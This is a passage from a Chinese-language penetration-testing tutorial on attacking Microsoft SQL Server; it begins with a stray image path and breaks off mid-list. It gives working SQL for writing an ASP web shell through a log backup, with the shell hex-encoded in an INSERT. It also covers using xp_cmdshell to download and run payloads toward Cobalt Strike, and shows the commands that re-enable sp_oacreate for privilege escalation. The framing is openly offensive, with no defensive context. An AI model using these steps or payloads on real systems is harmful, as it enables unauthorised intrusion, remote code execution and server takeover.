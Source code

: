 当过滤了特殊的字符比如单引号，或者 路径符号 都可以使用定义局部变量来执行。

### log备份拿shell

LOG备份的要求是他的数据库备份过，而且选择恢复模式得是完整模式，至少在2008上是这样的，但是使用log备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式

```mssql
1. alter database 库名 set RECOVERY FULL 

2. create table cmd (a image) 

3. backup log 库名 to disk = 'c:\xxx' with init 

4. insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) 

5. backup log 库名 to disk = 'c:\xxx\2.asp'
```

log备份的好处就是备份出来的webshell的文件大小非常的小

## getsystem

我们继续来探究怎么进行提权

### xp_cmdshell

在2005中xp_cmdshell的权限是system，2008中是network。

当遇到无法写shell，或者是站库分离的时候，直接通过xp_cmdshell来下载我们的payload来上线会更加方便。下载文件通常有下面几种姿势

1. certutil
2. vbs
3. bitsadmin
4. powershell
5. ftp

这个我会放在下一篇文章中细讲。

通过下载文件之后用xp_cmdshell来执行我们的payload，通过Cobalt Strike来进行下一步操作，比如怼exp或许会更加方便。

### sp_oacreate

当xp_cmdshell 被删除可以使用这个来提权试试,恢复sp_oacreate

```
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'Ole Automation Procedures', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'show advanced options', 0;

```

sp_oacreate是一个非常危险的存储过程可以删除、复制、移动文件 还能配合sp_oamethod 来写文件执行cmd

在以前的系统有这几种用法 
